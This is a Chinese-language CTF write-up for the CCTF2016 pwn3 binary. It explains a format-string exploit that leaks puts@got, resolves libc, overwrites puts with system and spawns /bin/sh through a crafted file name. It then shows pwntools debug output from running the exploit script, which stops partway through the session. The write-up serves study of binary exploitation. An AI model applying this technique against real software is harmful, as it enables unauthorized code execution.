 ## exploit Analysis

exploit的整体思路：

1. `put file->name=1111, file->content=b"%8$s" + p32(puts_got) `
2. `get 1111` : 调用`printf("%8$s" + p32(puts_got));`，获取到`puts`的真实地址
3. 使用`LibcSearcher`判断libc版本，从而得到`system`函数的真实地址
4. `put file->name=/bin/sh;, file->content=fmtstr_payload(7, {puts_got: system_addr})`，payload内容为，fmt str为第7个参数，想要把`puts_got`覆盖为`system_addr`。此时只是该文件内容为payload，`puts@got`并未被替换，即payload还未起效。
5. `get /bin/sh;`: 调用`printf(payload);`，使得`puts@got`覆盖为`system_addr`，即payload起效
6. `dir`: 原本应执行`puts(file->name)`，但因`puts@got`被替换成了`system`，实际执行的为`system(/bin/sh;1111)`

能够起效有几个关键点：

1. 存在`printf(s)`这样格式化字符串可被控制的地方，所以可以利用这一调用将`puts@got`覆盖为`system`
2. 存在`puts(file_names)`这样的调用，而`file->name`是逆序追加的，即后添加的先输出，文件名又是用户自己输入的，所以可以使用`/bin/sh;`这样的文件名



## output

```assembly
$ python exp.py  # 运行上述脚本
[DEBUG] PLT 0x80484a0 setbuf
[DEBUG] PLT 0x80484b0 strcmp
[DEBUG] PLT 0x80484c0 printf
[DEBUG] PLT 0x80484d0 bzero
[DEBUG] PLT 0x80484e0 fread
[DEBUG] PLT 0x80484f0 strcpy
[DEBUG] PLT 0x8048500 malloc
[DEBUG] PLT 0x8048510 puts
[DEBUG] PLT 0x8048520 __gmon_start__
[DEBUG] PLT 0x8048530 exit
[DEBUG] PLT 0x8048540 __libc_start_main
[DEBUG] PLT 0x8048550 __isoc99_scanf
[DEBUG] PLT 0x8048560 strncmp
[*] '/home/kali/CTF/pwn/CCTF2016pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './pwn3' argv=[b'./pwn3'] : pid 32812
[DEBUG] Received 0x70 bytes:
    b'Connected to ftp.hacker.server\n'
    b'220 Serv-U FTP Server v6.4 for WinSock ready...\n'
    b'Name (ftp.hacker.server:Rainism):'
[DEBUG] Sent 0x9 bytes:
    b'rxraclhm\n'
[+] puts got : 0x804a028
[*] running in new terminal: /usr/bin/gdb -q  "./pwn3" 32812
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./pwn3" 32812']
[+] Waiting for debugger: Done
[DEBUG] Sent 0x4 bytes:
    b'put\n'
[DEBUG] Received 0xd bytes:
    b'welcome!\n'
    b'ftp>'
[DEBUG] Received 0x35 bytes:
    b'please enter the name of the file you want to upload:'
[DEBUG] Sent 0x5 bytes:
    b'1111\n'
[DEBUG] Received 0x18 bytes:
    b'then, enter the content:'
```